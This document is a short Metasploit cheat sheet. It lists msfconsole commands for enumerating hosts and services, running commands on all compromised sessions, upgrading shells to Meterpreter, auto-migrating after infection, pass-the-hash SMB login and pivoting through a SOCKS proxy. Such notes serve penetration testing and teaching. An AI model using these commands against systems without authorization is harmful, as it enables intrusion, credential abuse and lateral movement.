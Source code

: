 ### Source
https://github.com/rapid7/metasploit-framework  

### Execute before start of msfconsole
```
msf> systemctl start postgresql
```

### Initiate db
```
msf> msfdb init
```

### Check status
```
msf> db_status
```

### List windows 2008 server
```
msf> hosts -u -S 2008
```

### Show services of specific host
```
msf> services <rhost>
```

### Set rhosts for specific open port
```
msf> services -R -u -p <rport>
```

### Export services to file
```
msf> services -u -o <file>
```

### Execute command on all sessions
```
msf> sessions -c ipconfig
```

### Upgrade a shell session
```
msf> use post/multi/manage/shell_to_meterpreter
```

### Shortcut for choosing correct handler inside the context of payload module
```
msf> to_handler
```

### Automigrate to another process, directly after infecting target
```
msf> set AutoRunScript post/windows/manage/migrate
```

### Smb_login with ntlm hash
```
ms> set smbpass <nthash:nthash>
```

### Load powershell script into current meterpreter session
```
mtr> powershell_import <localFile>.ps1
```

### Tunnel traffic trough proxy
```
msf> set PROXIES HTTP:127.0.0.1:8080
```

### Pivoting using proxychains
```
msf> auxiliary/server/socks_proxy
msf> set version 4a
msf> route add <ipRange> <sessionId>
msf> run -j
```

### Adjust listening port in vim /etc/proxychains4.con
```
socks4  127.0.0.1 1080
```

